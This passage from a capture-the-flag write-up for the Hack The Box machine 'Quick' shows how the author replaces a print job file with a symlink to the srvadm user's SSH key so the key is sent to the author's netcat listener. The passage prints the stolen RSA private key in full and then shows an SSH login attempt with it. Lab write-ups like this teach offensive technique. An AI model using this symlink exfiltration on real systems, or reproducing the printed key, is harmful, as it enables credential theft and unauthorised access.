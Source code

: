 This time, instead of trying to put the contents of the SSH key in the print file, I swapped the print file with a symlink to the key. This way when the file is sent to my waiting "printer" \(nc listener\), it would send the SSH key using the permissions of `srvadm`.

```text
zweilos@kali:~/htb/quick$ nc -lvnp 9100
listening on [any] 9100 ...
connect to [10.10.15.57] from (UNKNOWN) [10.10.10.186] 36404
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAutSlpZLFoQfbaRT7O8rP8LsjE84QJPeWQJji6MF0S/RGCd4P
AP1UWD26CAaDy4J7B2f5M/o5XEYIZeR+KKSh+mD//FOy+O3sqIX37anFqqvhJQ6D
1L2WOskWoyZzGqb8r94gN9TXW8TRlz7hMqq2jfWBgGm3YVzMKYSYsWi6dVYTlVGY
DLNb/88agUQGR8cANRis/2ckWK+GiyTo5pgZacnSN/61p1Ctv0IC/zCOI5p9CKnd
whOvbmjzNvh/b0eXbYQ/Rp5ryLuSJLZ1aPrtK+LCnqjKK0hwH8gKkdZk/d3Ofq4i
hRiQlakwPlsHy2am1O+smg0214HMyQQdn7lE9QIDAQABAoIBAG2zSKQkvxgjdeiI
ok/kcR5ns1wApagfHEFHxAxo8vFaN/m5QlQRa4H4lI/7y00mizi5CzFC3oVYtbum
Y5FXwagzZntxZegWQ9xb9Uy+X8sr6yIIGM5El75iroETpYhjvoFBSuedeOpwcaR+
DlritBg8rFKLQFrR0ysZqVKaLMmRxPutqvhd1vOZDO4R/8ZMKggFnPC03AkgXkp3
j8+ktSPW6THykwGnHXY/vkMAS2H3dBhmecA/Ks6V8h5htvybhDLuUMd++K6Fqo/B
H14kq+y0Vfjs37vcNR5G7E+7hNw3zv5N8uchP23TZn2MynsujZ3TwbwOV5pw/CxO
9nb7BSECgYEA5hMD4QRo35OwM/LCu5XCJjGardhHn83OIPUEmVePJ1SGCam6oxvc
bAA5n83ERMXpDmE4I7y3CNrd9DS/uUae9q4CN/5gjEcc9Z1E81U64v7+H8VK3rue
F6PinFsdov50tWJbxSYr0dIktSuUUPZrR+in5SOzP77kxZL4QtRE710CgYEAz+It
T/TMzWbl+9uLAyanQObr5gD1UmG5fdYcutTB+8JOXGKFDIyY+oVMwoU1jzk7KUtw
8MzyuG8D1icVysRXHU8btn5t1l51RXu0HsBmJ9LaySWFRbNt9bc7FErajJr8Dakj
b4gu9IKHcGchN2akH3KZ6lz/ayIAxFtadrTMinkCgYEAxpZzKq6btx/LX4uS+kdx
pXX7hULBz/XcjiXvKkyhi9kxOPX/2voZcD9hfcYmOxZ466iOxIoHkuUX38oIEuwa
GeJol9xBidN386kj8sUGZxiiUNoCne5jrxQObddX5XCtXELh43HnMNyqQpazFo8c
Wp0/DlGaTtN+s+r/zu9Z8SECgYEAtfvuZvyK/ZWC6AS9oTiJWovNH0DfggsC82Ip
LHVsjBUBvGaSyvWaRlXDaNZsmMElRXVBncwM/+BPn33/2c4f5QyH2i67wNpYF0e/
2tvbkilIVqZ+ERKOxHhvQ8hzontbBCp5Vv4E/Q/3uTLPJUy5iL4ud7iJ8SOHQF4o
x5pnJSECgYEA4gk6oVOHMVtxrXh3ASZyQIn6VKO+cIXHj72RAsFAD/98intvVsA3
+DvKZu+NeroPtaI7NZv6muiaK7ZZgGcp4zEHRwxM+xQvxJpd3YzaKWZbCIPDDT/u
NJx1AkN7Gr9v4WjccrSk1hitPE1w6cmBNStwaQWD+KUUEeWYUAx20RA=
-----END RSA PRIVATE KEY-----
```

After a lot of troubleshooting I arrived at the script above and was able to retrieve the SSH key. I ended up having to remove the print job file `job.php` made, copy its filename to a variable, then symlink the `id_rsa` file to a file with the same name as the print job file. This all had to happen before the print job was sent to my waiting nc listener.

## Enumeration as `srvadm`

```text
zweilos@kali:~/htb/quick$ ssh -i srvadm.id_rsa srvadm@quick.htb
load pubkey "srvadm.id_rsa": invalid format
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'srvadm.id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "srvadm.id_rsa": bad permissions
srvadm@quick.htb's password:
```
